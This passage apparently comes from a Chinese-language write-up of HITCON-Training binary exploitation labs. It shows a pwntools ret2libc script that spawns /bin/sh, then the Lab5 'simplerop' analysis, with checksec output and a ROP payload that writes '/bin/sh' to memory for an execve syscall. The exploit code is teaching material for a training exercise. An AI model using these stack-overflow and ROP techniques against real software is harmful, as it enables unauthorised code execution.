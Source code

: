 ```python
system = libc.symbols['system']
write = libc.symbols['write']
binsh = next(libc.search("/bin/sh"))

main_addr = 0x8048570

offset = 0x38 + 4
rop = offset * "a"
rop += p32(system)
rop += p32(main_addr)
rop += p32(binsh)

p.sendafter("for me :", rop)

p.interactive()
```

## Lab5——simplerop ##

### 防护 ###

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab5$ checksec simplerop
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab5/simplerop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

### 分析 ###

直接栈溢出。不过该题是静态链接的，没有加载libc.so，并且题目中没有system，所以需要手动构造ROP链，利用系统调用sys_execve执行利用。

首先要把参数写到相应的寄存器，然后执行int 0x80

- 系统调用号存入EAX（execve的为11）
- 通过ebx,ecx,edx,esi,edi等传递参数
- 最后调用int 0x80

这里要用到ROPgadget工具，来搜索可用的gadget。主要就是一些pop|ret和int 0x80的gadget。

另外，题目中没有现成的/bin/sh字符串，需要首先写入。我采用的是调用静态链接进来的read函数，写入到bss段。官方writeup中采用了一种更为巧妙的方法，使用如下的gadget

```assembly
mov dword ptr [edx], eax ;
ret ;
```

通过`pop eax;ret pop edx; ret`将字符串四位四位的写到data段（或bss段）。可以看到这种方法的通用性更强。

```python
#write to memory
payload = "a"*32
payload += p32(pop_edx_ret)
payload += p32(buf)
payload += p32(pop_eax_ret)
payload += "/bin"
payload += p32(gadget)
payload += p32(pop_edx_ret)
payload += p32(buf+4)
payload += p32(pop_eax_ret)
payload += "/sh\x00"
payload += p32(gadget)
```